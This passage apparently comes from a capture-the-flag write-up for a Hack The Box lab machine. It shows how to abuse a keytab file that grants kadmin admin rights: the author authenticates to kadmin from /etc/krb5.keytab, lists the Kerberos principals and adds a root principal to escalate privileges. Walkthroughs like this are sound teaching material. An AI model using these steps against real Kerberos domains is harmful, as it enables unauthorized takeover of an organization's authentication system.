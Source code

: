        2 12/19/2020 06:10:53 kadmin/admin@REALCORP.HTB



By default, a `krb5.keytab` file would only have the host principle. But
another principle, kadmin, has been added here with both the `admin` and
`changepw` privileges. That means that anyone who can read this file can
act as kadmin, and that user can run the `kadmin` binary which allows
them to administer the Kerberos domain. Running it will drop me to a
`kadmin` prompt:



    [admin@srv01 etc]$ kadmin -kt /etc/krb5.keytab -p kadmin/admin@REALCORP.HTB
    Couldn't open log file /var/log/kadmind.log: Permission denied
    Authenticating as principal kadmin/admin@REALCORP.HTB with keytab /etc/krb5.keytab.
    kadmin:



It's important to specify that I'm getting auth through the keytab file,
and that I want to enter as the kadmin principle with `admin` privs.

From within `kadmin`, I can list the users (principles) in the domain:



    kadmin:  list_principals
    K/M@REALCORP.HTB
    host/srv01.realcorp.htb@REALCORP.HTB
    j.nakazawa@REALCORP.HTB
    kadmin/admin@REALCORP.HTB
    kadmin/changepw@REALCORP.HTB
    kadmin/srv01.realcorp.htb@REALCORP.HTB
    kiprop/srv01.realcorp.htb@REALCORP.HTB
    krbtgt/REALCORP.HTB@REALCORP.HTB



I can add root as a principle. When prompted, I enter a password
(twice), and then root shows up:



    kadmin:  add_principal root
    No policy specified for root@REALCORP.HTB; defaulting to no policy
    Enter password for principal "root@REALCORP.HTB": 
    Re-enter password for principal "root@REALCORP.HTB": 
    Principal "root@REALCORP.HTB" created.
    kadmin:  list_principals
    K/M@REALCORP.HTB
    host/srv01.realcorp.htb@REALCORP.HTB
    j.nakazawa@REALCORP.HTB
    kadmin/admin@REALCORP.HTB
    kadmin/changepw@REALCORP.HTB
    kadmin/srv01.realcorp.htb@REALCORP.HTB
    kiprop/srv01.realcorp.htb@REALCORP.HTB
    krbtgt/REALCORP.HTB@REALCORP.HTB
    root@REALCORP.HTB
